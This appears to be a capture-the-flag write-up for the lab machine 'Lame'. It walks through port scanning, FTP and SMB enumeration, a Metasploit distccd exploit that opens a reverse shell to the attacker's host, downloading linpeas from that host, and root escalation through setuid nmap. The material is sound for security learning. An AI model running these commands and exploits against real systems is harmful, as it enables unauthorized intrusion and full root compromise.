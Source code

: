 # IP Address: 10.10.10.3

## Enumeration.1
Scan for open ports and services.
```
┌──(code㉿kali)-[~]
└─$ sudo nmap -sV -Pn -p- -T 4 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-10 09:41 EST
Nmap scan report for 10.10.10.3
Host is up (0.027s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### FTP 
Check for anonymous FTP login.
```
┌──(code㉿kali)-[~]
└─$ ftp 10.10.10.3                                                                                  
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:code): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```
Anonymous login possible. No files discovered.

### SMB
Check for accessible SMB shares.
```
┌──(code㉿kali)-[~]
└─$ smbmap -u "" -p "" -P 445 -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))

```
Multiple shares discovered. We have READ/WRITE access on tmp.

Connect to tmp and enumerate files.
```
┌──(code㉿kali)-[~]
└─$ smbclient -U '%' -N \\\\10.10.10.3\\tmp                                                                          
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov 10 10:09:27 2021
  ..                                 DR        0  Sat Oct 31 03:33:58 2020
  .ICE-unix                          DH        0  Wed Nov 10 09:39:26 2021
  vmware-root                        DR        0  Wed Nov 10 09:39:52 2021
  .X11-unix                          DH        0  Wed Nov 10 09:39:51 2021
  .X0-lock                           HR       11  Wed Nov 10 09:39:51 2021
  5562.jsvc_up                        R        0  Wed Nov 10 09:40:29 2021
  vgauthsvclog.txt.0                  R     1600  Wed Nov 10 09:39:23 2021
```


### DISTCCD
This service is exploitable by Metasploit module https://www.exploit-db.com/exploits/9915

```
msf6 > search distcc

Matching Modules
================

   #  Name                           Disclosure Date  Rank       Check  Description
   -  ----                           ---------------  ----       -----  -----------
   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/misc/distcc_exec

msf6 > use 0
```


# Exploitation.1 
Set available options.

```
msf6 exploit(unix/misc/distcc_exec) > show options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasp
                                      loit
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.7       yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Exploit the target.

```
msf6 exploit(unix/misc/distcc_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.7:443 
[*] Command shell session 1 opened (10.10.14.7:443 -> 10.10.10.3:48965 ) at 2021-11-10 10:19:25 -0500
```


# Enumeration.2
Find user.txt

![[Pasted image 20211110102338.png]]

Copy Linpeas to target from local web server.
Local:
```
┌──(code㉿kali)-[~]
└─$ sudo service apache2 start
[sudo] password for code: 

┌──(code㉿kali)-[~]
└─$ sudo cp tools/linpeas.sh /var/www/html/peas.sh
```

On target: 
```
daemon@lame:/tmp$ wget http://10.10.14.7/peas.sh
wget http://10.10.14.7/peas.sh
--10:32:50--  http://10.10.14.7/peas.sh
           => `peas.sh'
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 458,110 (447K) [text/x-sh]

100%[====================================>] 458,110        1.18M/s             

10:32:51 (1.18 MB/s) - `peas.sh' saved [458110/458110]

daemon@lame:/tmp$ chmod +x peas.sh
chmod +x peas.sh

```

Linpeas found nmap on the system with the stick bit set. 

# Local Privilege Escalation

Escalate privileges with nmap via GTFObins exploit https://gtfobins.github.io/gtfobins/nmap/

```
daemon@lame:/$ which nmap 
which nmap
/usr/bin/nmap
daemon@lame:/$ ls -l /usr/bin/nmap
ls -l /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
daemon@lame:/$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)

```


# Proof
![[Pasted image 20211110185307.png]]